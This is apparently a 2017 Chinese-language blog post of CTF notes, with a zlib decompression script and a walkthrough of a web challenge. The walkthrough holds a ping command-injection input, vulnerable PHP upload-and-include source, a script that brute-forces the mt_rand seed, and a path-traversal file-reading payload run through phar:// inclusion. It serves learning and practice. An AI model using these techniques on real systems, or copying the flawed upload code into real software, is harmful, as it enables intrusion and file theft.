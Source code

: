 ```yaml
---
layout: post
title: 近期笔记
subtitle: 
author: Coink
date: 2017-11-19
categories:
tag:
- Science
---
```


最近隐写里zlib上镜率比较高，解压缩脚本记录下

```python
#! /usr/bin/env python
import zlib
import binascii
IDAT = "xxxxxxxxxxxxxxxxxxx".decode('hex')
result = binascii.hexlify(zlib.decompress(IDAT))
print result
print result.decode('hex')
```

一道命令执行跟文件包含结合的题：

输入会被当作ping命令执行，“|”被过滤，命令长度限制在3个字符以内，尝试127.0.0.1&ls，列出文件

![](https://i.loli.net/2017/11/19/5a1192adca3ad.png)

转到you_find_upload.php，发现一个随机数

![](https://i.loli.net/2017/11/19/5a1192addcc3d.png)

发现是可以查看源码的

![](https://i.loli.net/2017/11/19/5a1192ae0dfc8.png)

base64解码查看源码，尝试跨目录，发现../被过滤。

```php
<?php
        $type = array('gif','jpg','png');
        mt_srand((time() % rand(1,100000)%rand(1000,9000)));
        echo mt_rand();
        if (isset($_POST['submit'])) {
            $check = getimagesize($_FILES['file']['tmp_name']);
            @$extension = end(explode('.',$_FILES['file']['name']));
            if(in_array($extension,$type)){
                echo 'File is an image - ' . $check['mime'];
                $filename = '/var/www/html/web1/upload/'.mt_rand().'_'.$_FILES['file']['name']; 
                move_uploaded_file($_FILES['file']['tmp_name'], $filename);
                echo "<br>\n";
            } else {
                echo "File is not an image";
            }
        }
        if(isset($_GET['p'])){
            if(@preg_match("/\.\.\//",$_GET['p'])){
                echo "too young too simple";
            }
            else{
               @include $_GET['p'].".php";
            }
        }
        ?>
```

上传的文件只检查后缀，白名单三种图片格式，尝试解析漏洞绕过，无果。

解决随机数问题，发现本质就是随机数种子1000-9000，脚本（by YXM）：

```php
<?php
$t = 333347096;
for ($i = 1;$i<=9000;$i++){
    mt_srand($i);
    $r = mt_rand();
    if($r==333347096){
        echo "seed".$i."\n";
        break;
    }
}
mt_srand($i);
echo "check:".mt_rand()."\n";
echo "answer:".mt_rand();
?>
```

随机数问题解决了，尝试使用压缩上传，协议解压，php文件打包成zip，payload：

```php
<?php 
 $file = fopen('../../../../../../../../etc/flag.txt','r');

    if($file){
        while(!feof($file)){
            $line = fgetc($file);
            echo $line;
        }
    }
    fclose($file);
?>

```

抓包，修改zip文件后缀成png，记录随机数，丢到之前的脚本里跑出上传的目录

![](https://i.loli.net/2017/11/19/5a1192ae115bf.png)

seed404 check:718797317 answer:1230306824

接着用phar://协议解压，访问/web1/you_find_upload.php?p=phar://upload/1230306824_1.png/1

得到flag：

![](https://i.loli.net/2017/11/19/5a1192adbd276.png)

